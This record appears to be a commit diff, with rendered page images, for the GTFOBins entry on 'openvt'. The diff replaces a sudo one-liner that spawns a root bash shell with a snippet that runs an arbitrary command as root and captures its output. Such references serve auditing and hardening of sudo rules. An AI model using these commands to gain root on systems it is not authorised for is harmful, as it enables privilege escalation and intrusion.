

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openvt.md, in a window 1280 px wide. Shown: the top 449 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix openvt

```diff
--- a/_gtfobins/openvt.md
+++ b/_gtfobins/openvt.md
@@ -1,7 +1,10 @@
 ---
 functions:
   sudo:
-    - description: If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
+    - description: The command execution is blind (displayed on the virtual console), but it is possible to save the output on a temporary file.
       code: |
-        sudo openvt -vsu bash
+        COMMAND=id
+        TF=$(mktemp -u)
+        sudo openvt -- sh -c "$COMMAND >$TF 2>&1"
+        cat $TF
 ---
```
